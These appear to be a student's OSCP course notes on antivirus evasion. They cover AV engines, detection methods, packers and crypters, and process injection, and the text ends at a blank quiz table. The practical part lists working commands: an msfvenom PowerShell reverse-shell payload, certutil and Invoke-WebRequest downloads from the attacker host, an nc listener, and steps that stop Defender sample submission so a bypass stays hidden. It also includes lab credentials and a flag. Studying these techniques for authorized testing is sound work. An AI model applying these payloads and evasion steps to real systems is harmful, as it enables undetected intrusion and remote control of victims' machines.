










# Module 15: Antivirus Evasion

## Tags
#OSCP #Module15 #AntivirusEvasion #AVBypass #AVEvasion #PowerShell #Shellter #Veil #Msfvenom #InMemoryInjection #RemoteProcessInjection #ProcessHollowing #ReflectiveDLLInjection #InlineHooking #EDR #SIEM #MachineLearning #Crypter #Obfuscator #Packer #VirusTotal #Kleenscan #Windows #StagedVsStageless #PEInjection #YARA #COMODO #Avira

---

## **Why This Module Matters**

Getting a shell is step one. Keeping it is a different problem.

Modern targets run antivirus. Sometimes that's just Windows Defender, sometimes something heavier like COMODO, Avira, or a full EDR stack. A payload that works perfectly on Kali often gets caught and quarantined before it executes on the target. This module is the answer to that.

The key shift in thinking: AV evasion isn't about finding a magic payload. It's about understanding *how* AV products detect code, then making deliberate choices that avoid those specific detection mechanisms. Signature-based detection looks for known byte sequences, so changing those bytes evades it. Heuristic detection looks for suspicious code patterns, so moving execution to memory (where there's less to scan) helps. ML detection watches for behavioral indicators, so anything that looks legitimate on-disk (a real Spotify installer, a real PuTTY binary) has a head start.

This module splits into two practical halves: understanding what you're up against (AV engines and detection methods), and the actual bypass techniques (PowerShell in-memory injection for scripted payloads, Shellter for PE-based delivery, and Veil for weaponising PowerShell as a double-clickable executable).

The delivery side (how the payload actually reaches the target) draws directly on [[12. Client-Side Attacks|Client-Side Attacks]] (user-triggered execution, pretexting) and [[11. Phishing Basics|Phishing Basics]] (the social engineering wrapper). This module covers "what happens once they click." Those earlier modules cover "how do you get them to click."

The shellcode generation here uses `msfvenom` with the same options already established in [[14. Fixing Exploits#14.1.4. Fixing the Exploit|14.1.4]] (bad characters, encoders, staged vs stageless). The tool feels familiar even though the use case is different.

---

## 15.1. Antivirus Software Key Components and Operations

### 15.1.1. Known vs Unknown Threats

AV started as purely reactive technology. A piece of malware got discovered, its unique identifier (a hash or a specific byte sequence) got added to a signature database, and future copies got blocked on sight. Fast. Reliable for known threats. Trivially bypassed by changing one byte (which produces a completely different hash).

The response was heuristic and then ML-based detection. Instead of "is this file in our blocklist?", the question becomes "does this file *behave* like something we'd block?" Better at catching novel threats, but more resource-intensive and often cloud-dependent.

**YARA** (open-sourced 2014) is the language underlying many modern signature databases. It lets analysts write flexible queries against malware repositories like VirusTotal, matching on byte patterns, strings, and metadata rather than just file hashes. Understanding YARA helps explain *why* changing specific strings in a payload evades detection: you're breaking the exact pattern a YARA rule is matching on.

**EDR** (Endpoint Detection and Response) is the layer above standalone AV. EDRs generate security-event telemetry (API calls, process trees, network connections, file writes) and feed it to a SIEM for centralised analysis. For a penetration tester, in-memory evasion alone isn't always enough if the EDR is watching your process's syscall patterns. Defeating a full EDR stack is out of scope for the OSCP, but worth knowing exists.



> 📸 Screenshot: the VirusTotal scan page for `malware.exe`, worth grabbing both the DETECTION tab (vendor count) and BEHAVIOR tab (what it actually does when run) for comparison

> 🔗 **YARA GitHub** (VirusTotal's repo, canonical language spec): [github.com/VirusTotal/yara](https://github.com/VirusTotal/yara)

#### Tags: #SignatureDetection #Heuristic #EDR #SIEM #YARA #VirusTotal #MachineLearning

---

### 15.1.2. AV Engines and Components

A modern AV isn't one scanner. It's a pipeline of seven concurrent engines, each watching a different attack surface. They work simultaneously and rank detected events as benign, malicious, or unknown.

1. **File Engine**, scheduled scans and real-time monitoring. Real-time detection uses Windows kernel-level mini-filter drivers to intercept file write operations *before* they complete. This is what catches a dropped payload the moment it touches disk.

2. **Memory Engine**, inspects process memory at runtime for known binary signatures or suspicious API call sequences. This is the main reason in-memory injection (15.2.2) is effective: if nothing written to disk is malicious, the file engine has nothing to catch.

3. **Network Engine**, monitors incoming/outgoing traffic at the local network interface. Primarily blocks known C2 communications, DNS-based beacons, and malicious downloads in transit.

4. **Disassembler**, translates machine code back into assembly, reconstructs code sections, and identifies encoding/decoding routines (the signature of a packed payload unpacking itself). This is how AV bypasses the first layer of a packer: it emulates the decode step, then scans the unpacked result.

5. **Emulator/Sandbox**, a safe isolated environment where a suspicious binary can actually run so the AV can watch what it does. Time-limited by necessity, which is why time-delayed execution is a known sandbox-evasion technique (sleep for 30+ seconds, then act).

6. **Browser Plugin**, extends AV visibility into content executing inside a browser (JavaScript, WebAssembly). Less relevant to this module's techniques but part of the full picture.

7. **Machine Learning Engine**, the cloud tier. When the local AV isn't confident, it uploads metadata to the vendor's cloud model for a verdict. Requires internet access, which is why restricted-connectivity production servers often run with degraded AV capability.



> 📸 Screenshot: the Avira or COMODO AV interface on the Windows 11 VM, worth grabbing before testing evasion against it, so you have a reference for what the product looks like in normal state

> 🔍 **Worth remembering generally:** the Emulator/Sandbox is time-limited. Malware that sleeps longer than the sandbox runs (typically a few seconds) can fool behaviour-based detection entirely. Advanced malware often starts with an environment check specifically because of this. Not directly relevant to this module's techniques, but explains why modern evasion tooling goes deeper than just changing bytes.

#### Tags: #AVEngines #FileEngine #MemoryEngine #SandboxEmulator #Disassembler #MiniFilter

---

### 15.1.3. Detection Methods

**Signature-based detection** is the restricted-list model. Scans the filesystem for known malware signatures, from a specific file hash to a longer byte-pattern match. Defeated by changing any byte (new hash) or encoding the code (new byte pattern). The module demonstrates this directly: changing one character of a file with `xxd` and `sha256sum` produces a completely different hash.

**Heuristic-based detection** uses rules and algorithms to analyse code rather than match it. The disassembler decompiles and steps through instructions looking for dangerous patterns (e.g., `VirtualAlloc` + `WriteProcessMemory` + `CreateRemoteThread` in sequence, a textbook injection chain). Better than pure signatures at catching novel threats, more false positives, slower.

**Behaviour-based detection** actually *runs* the binary in the sandbox and watches what it does. Catches payloads that are encrypted at rest. The sandbox decrypts and executes them, revealing real behaviour. Defeated by sandbox-aware malware that checks for a real environment before acting.

**Machine Learning detection** applies statistical models to file metadata and execution telemetry. Windows Defender runs a local ML model; when uncertain, it queries a cloud model trained on a much larger dataset. Requires internet. A target with no outbound web access effectively runs without ML-tier AV capability.



**Lab status: ✅ Completed** (Q1 & Q2 pure-recall):

| Question | Answer |
|---|---|
| Which AV engine is responsible for translating machine code into assembly? | **Disassembler** |
| Which AV detection method makes use of an engine that runs the executable from inside an emulated sandbox? | **Behaviour-based detection** |

**Q3 VirusTotal Scan — ✅ Solved** (VM #1, 192.168.158.61, `offsec`/`lab`)

**Step 1: RDP in with drive sharing**
```bash
mkdir -p /tmp/rdp-share
xfreerdp /u:offsec /p:lab /v:192.168.158.61 /drive:kali,/tmp/rdp-share /dynamic-resolution +clipboard
```

**Step 2: Copy malware.exe to Kali via the shared drive (inside RDP cmd.exe)**
```cmd
copy C:\Users\offsec\Desktop\malware.exe \\tsclient\kali\
```
```
1 file(s) copied.
```

**Step 3: Verify on Kali**
```bash
ls -lh /tmp/rdp-share/malware.exe
```
```
-rw-rw-r-- 1 kali kali 73K Aug 10 2026 /tmp/rdp-share/malware.exe
```

**Step 4: Upload to VirusTotal, check BEHAVIOR tab → Process and service actions**

> 📸 Screenshot: the VirusTotal BEHAVIOR tab open on Process and service actions showing the flag

**Lab answer: `OS{6c33bf77a2eb75db6ba9b35138a8b89f}`**

> 🔧 **Note on the drive sharing path:** `\\tsclient\kali` is how Windows sees the xfreerdp `/drive:kali,<path>` share inside a session. The share name after `tsclient\` matches whatever name you gave in the `/drive:` flag, not the local folder name.

> 🔍 **Worth remembering generally:** `ERRCONNECT_CONNECT_FAILED` from xfreerdp with "Couldn't get socket ip address" means the VPN gateway has no route to that subnet, not that the credentials are wrong or RDP is down. It happens when your VPN reconnects and gets a new tun0 IP while the VM was assigned during an older session. Fix: restart the VM from the lab platform to get it re-assigned to your current VPN instance.

#### Tags: #SignatureDetection #HeuristicDetection #BehaviourDetection #MachineLearning #WindowsDefender #VirusTotal #Lab #Quiz #Module15

---

## 15.2. Bypassing Antivirus Detections

Two categories targeting different parts of the AV pipeline.

**On-disk evasion** changes what's written to disk so the file engine doesn't flag it. The payload still lands on the filesystem, just in a form AV doesn't recognise as malicious.

**In-memory evasion** sidesteps the file engine entirely. The payload goes straight from the network or a legitimate process into executable memory, never touching disk as malicious code. The memory engine is then the main threat, but it's generally harder to defeat than the file engine.

---

### 15.2.1. On-disk Evasion

Three core techniques, ranked by effectiveness against modern AV:

**Packers** compress a binary into a new executable with a new structure (and therefore a new hash), wrapping it in a decompression stub that unpacks the original at runtime. Originally invented for legitimate size reduction. Modern AVs flag well-known packers like UPX by name, and the disassembler engine can identify the unpacking routine and scan the decompressed payload anyway. Packers alone are not enough against modern AV.

**Obfuscators** reorganise and mutate code without changing its function: replacing instructions with semantically equivalent alternatives, inserting dead code (operations that don't affect output), splitting and reordering functions. Primarily used for intellectual property protection. Effective at breaking static signature byte patterns. Modern obfuscators increasingly include runtime in-memory capabilities, blurring the line with crypters.

**Crypters** encrypt the payload with a private key and include a decryption stub that restores the original payload in memory at runtime. Only the encrypted blob lives on disk. The actual malicious code never touches the filesystem in cleartext. The file engine only ever sees encrypted data, indistinguishable from an innocuous encrypted file. This is the most effective on-disk technique. Commercial tools like the Enigma Protector go to considerable lengths to make the decryption stub itself undetectable.



> 📸 Screenshot: if testing an obfuscator or crypter output, the before/after `sha256sum` comparison makes the "one byte change = new hash" lesson concrete

> 🔗 **PayloadsAllTheThings** AV bypass section, packer/obfuscator/crypter examples and more (GitHub source, stable): [github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Antivirus%20Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Antivirus%20Bypass)

**Lab status: ✅ Completed** (Q1 pure-recall):

| Question                                                                                                        | Answer                                                                                                                                       |
| --------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| Which on-disk evasion technique makes use of code made by spurious instructions not part of the main execution? | **Obfuscators** — they insert dead code and spurious instructions to break static pattern detection without changing the payload's function. |

#### Tags: #OnDiskEvasion #Packer #Obfuscator #Crypter #EnigmaProtector #UPX

---

### 15.2.2. In-memory Evasion

In-memory techniques skip the file engine entirely. The trade-off: they're more complex to set up and they're now the primary target of memory engine and EDR telemetry monitoring.

**Remote Process Memory Injection**, the classic, and the basis for this module's PowerShell bypass in 15.3.2. Inject a payload into another running process using four standard Windows API calls in sequence:

1. `OpenProcess()`, get a HANDLE to the target process (requires appropriate privileges)
2. `VirtualAllocEx()`, allocate a writable+executable memory region inside the target process's address space
3. `WriteProcessMemory()`, copy shellcode into that allocated region
4. `CreateRemoteThread()`, create a new thread in the target process with its start address pointing at the injected shellcode



> 🔁 **Similar to:** the fundamental goal (controlling where execution jumps) is identical to the return-address overwrite in [[14. Fixing Exploits#14.1.1. Buffer Overflow in a Nutshell|14.1.1's buffer overflow]]. Both techniques redirect the CPU to attacker-controlled code; the method is different (memory corruption vs legitimate API calls), the goal is the same.

**Reflective DLL Injection**, loads a DLL from process memory rather than disk. The standard `LoadLibrary()` Windows API requires a file on disk. Attackers implement their own in-memory loader that handles the full DLL loading sequence (mapping sections, resolving imports, calling DllMain) without touching disk. More complex to implement but highly effective against file engines.

**Process Hollowing**, launch a legitimate process in a suspended state, hollow out its memory, replace it with malicious code, resume it. From the OS process list: `notepad.exe`. What's actually running: your payload.



**Inline Hooking**, installs a `jmp` instruction at the start of a target function in memory, redirecting execution to malicious code before the real function runs. Used in rootkits to intercept and hide system calls. Requires admin privileges to hook kernel functions. Notably, defensive tools (AV/EDR) use exactly the same technique, hooking `CreateRemoteThread`, `VirtualAllocEx`, etc. to inspect calls before they execute. Hooking is a sword that cuts both ways.

> 🔍 **Worth remembering generally:** AV products often detect injection by hooking the same Windows APIs attackers use. When an AV flags an injection attempt, it's often not the shellcode itself being identified. It's the API call sequence matching a known injection pattern. Changing the API sequence (e.g., `NtCreateThread` instead of `CreateRemoteThread`) is a common evasion refinement, out of scope here but worth knowing exists.

**Lab status: ✅ Completed** (Q1 & Q2 pure-recall):

| Question                                                                                         | Answer                                                                                                                                                          |
| ------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| When performing Remote Process Injection, which API copies the shellcode into the target thread? | **`WriteProcessMemory`** — copies the payload into the memory allocated by `VirtualAllocEx` inside the target process.                                          |
| Between packers and crypters, which provides the highest level of stealth?                       | **Crypters** — payload is encrypted at rest on disk; only the decryption stub is visible, not the actual malicious code. Packers restructure but don't encrypt. |

#### Tags: #InMemoryEvasion #RemoteProcessInjection #ReflectiveDLLInjection #ProcessHollowing #InlineHooking #VirtualAllocEx #WriteProcessMemory #CreateRemoteThread #OpenProcess #Lab #Quiz #Module15

---

## 15.3. AV Evasion in Practice

### 15.3.1. Testing for AV Evasion — Best Practices

**The VirusTotal problem.** VirusTotal is fast and covers 60+ AV engines, but it explicitly forwards every uploaded sample to AV vendors for analysis. Within hours of submission, vendors sandbox the file, extract signatures, and release detections. If you upload a working bypass, you've handed it to the defenders. The bypass is dead before you've used it.

**Kleenscan as the alternative.** [kleenscan.com](https://kleenscan.com/) scans against ~30 engines without sharing samples with vendors. Four free scans per day. Use it when you don't know the target's AV vendor and need to check coverage without burning your bypass.

**Best practice: build a test VM.** If you know the target's AV (the OffSec labs tell you), spin up a local VM running that exact AV, disable automatic sample submission, and test directly. Unlimited attempts, bypass stays private, results are accurate to the real target environment.

How to disable automatic sample submission on Windows Defender:
- Settings → Virus & threat protection → Manage Settings → toggle off "Automatic Sample Submission"
- Or via PowerShell (admin): `Set-MpPreference -SubmitSamplesConsent 2`

**Prefer custom code.** AV signatures are extracted from malware samples. The more novel and unique your payload, the fewer existing detections match it. Copying known public shellcode is the fastest path to getting caught.

> 🔍 **Worth remembering generally:** "Automatic Sample Submission" means Windows Defender uploads uncertain files to Microsoft's cloud ML engine. Disabling it on your test VM means AV still runs locally (signatures, heuristics, local ML) but doesn't flag your bypass to Microsoft. This exactly mirrors a production server with restricted internet access, which is why it's the right test environment to build.

> 🔍 **Worth remembering generally:** any AV bypass has an expiry date. Vendor signature databases update continuously. A bypass that clears today may be detected by Friday. The more custom and unique the payload, the longer it tends to survive. Copied-from-GitHub shellcode has the shortest shelf life.

> 🔗 **HackTricks** AV bypass overview (GitHub source, bypasses the paywall, verify the path matches current repo structure): [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks), search for "av bypass" within the repo

#### Tags: #TestingBestPractices #VirusTotal #Kleenscan #WindowsDefender #SampleSubmission #OPSEC #Module15

---

### 15.3.2. Evading AV with Thread Injection (PowerShell In-Memory Injection)

**Context:** Windows 11 target running Avira Free Security v1.1.68.29553. PowerShell is the delivery mechanism because scripts are interpreted text, not binary executables. There's no fixed byte sequence for AV to fingerprint the same way it would a compiled `.exe`. AV signatures targeting PowerShell look for known variable names, function names, and API call strings inside the script. Change those names and the signature stops matching.

#### Step 1: Generate the payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f psh-reflection -o bypass.ps1
```

> 🔗 **RevShells**, generates ready-to-use reverse shell one-liners in any language including correctly-encoded PowerShell variants, faster than hand-writing them: [revshells.com](https://revshells.com)

The `-f psh-reflection` format produces a complete PowerShell script that:
- Imports `VirtualAlloc` (kernel32.dll), `CreateThread` (kernel32.dll), and `memset` (msvcrt.dll) via P/Invoke reflection (P/Invoke, or Platform Invocation, is .NET's mechanism for calling native Windows API functions directly from managed code like PowerShell; "via reflection" means those function definitions are set up dynamically at runtime rather than being compiled in statically, which avoids the fixed import-table signatures AV tools typically look for)
- Base64-decodes the embedded shellcode at runtime
- Allocates executable memory with `VirtualAlloc`
- Copies the shellcode using `memset`
- Spawns a new thread with `CreateThread` pointing at the shellcode

**The key detail:** every variable and function name is randomly generated each time. `xf`, `nfCl`, `uaQP` in the module's example. Different names on the next run. This is what breaks static string-signature detection. AV vendors can't blocklist `xf` because the next payload calls it something else entirely.

> 📸 Screenshot: the raw msfvenom output showing the PowerShell script with random variable names, worth capturing to confirm they differ on a second generation

#### Step 2: Transfer to target

```bash
# On Kali: serve the file
python3 -m http.server 8080

# On Windows target (PowerShell):
# Invoke-WebRequest -Uri http://<kali-ip>:8080/bypass.ps1 -OutFile bypass.ps1
# OR: certutil -urlcache -split -f http://<kali-ip>:8080/bypass.ps1 bypass.ps1
```

#### Step 3: Listener and execution

On Kali:
```bash
nc -lvnp 443
```

On the Windows target (PowerShell prompt):
```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
.\bypass.ps1
```



> 📸 Screenshot: the reverse shell landing on the nc listener, run `whoami` immediately inside the shell to confirm identity and capture both in one screenshot

> 🔁 **Similar to:** the msfvenom shellcode generation here uses the same tool, the same LHOST/LPORT options, and similar bad-character/encoder awareness as [[14. Fixing Exploits#14.1.4. Fixing the Exploit|14.1.4's Sync Breeze payload]]. The difference is output format: `-f c` for a C byte array that time, `-f psh-reflection` for a full PowerShell script here. Same underlying shellcode generation, different delivery wrapper.

> 🔍 **Worth remembering generally:** `psh-reflection` generates new random function and variable names every time you run `msfvenom`. If an AV engine starts flagging a specific script, regenerate rather than trying to manually rename things. The randomisation is built-in and more thorough than manual editing.

> 🔗 **Video. PowerShell in-memory injection technique walkthrough:** search `"powershell injection msfvenom"` on [ippsec.rocks](https://ippsec.rocks) to find HTB boxes where this exact delivery chain appeared in a real exploitation context.

> 🔍 **Worth remembering generally:** this payload is `windows/shell_reverse_tcp` (stageless), a plain `nc` listener catches it directly. Using a staged payload like `windows/meterpreter/reverse_tcp` would require a Metasploit `multi/handler` running instead. The stageless choice is deliberate for the same reason as [[14. Fixing Exploits#Module Exercise VM .23: Unknown service, memory corruption|Module 14's VM #3]]: fewer moving parts, works with plain netcat.

**Lab status: ✅ Completed** (Q1 pure-recall):

| Question                                                                   | Answer                                                                                                                                                                                                                                                                               |
